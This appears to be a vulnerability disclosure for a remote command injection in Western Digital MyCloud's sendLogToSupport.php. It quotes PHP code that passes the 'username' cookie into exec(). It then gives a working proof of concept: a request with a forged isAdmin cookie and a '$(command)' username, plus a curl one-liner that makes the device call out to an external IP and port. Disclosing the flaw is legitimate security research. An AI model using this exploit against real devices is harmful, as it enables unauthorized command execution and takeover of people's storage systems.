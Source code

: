 ## Western Digital MyCloud Remote Command Injection in sendLogToSupport.php

#### The latest firmware download link:https://downloads.wdc.com/nas/My_Cloud_GLCR_2.42.115.bin

### Description

#### /web/php/sendLogToSupport.php

A remote command execution vulnerability exists in the "php/sendLogToSupport.php" script within the Western Digital MyCloud <=v2.42.115  web interface.

##### Remote Command Execution

The "php/sendLogToSupport.php" file is vulnerable to a remote command execution bug allowing for a logged in user to execute commands. The following code illustrates the vulnerability.

`php/sendLogToSupport.php`

```
 15 $username = $\_COOKIE\['username'\];
 16 exec("wto -n \\"$username\\" -g", $ret);
```

On line 15 the value of the "username" cookie is pulled into a local variable. In the next line the value is used in an exec() call.

**POC**

```
http://host/web/php/sendLogToSupport.php?cmd=send_log&dev=a

Cookie: isAdmin=1;username=%24(your command)


curl -i "http://host/web/php/sendLogToSupport.php?cmd=send_log&dev=a" --cookie "isAdmin=1;username=%24(curl%20http:%2F%2F8.138.152.157:2333)"
```



![image-20250528150420738](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281504114.png)



![image-20250528151725050](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281517432.png)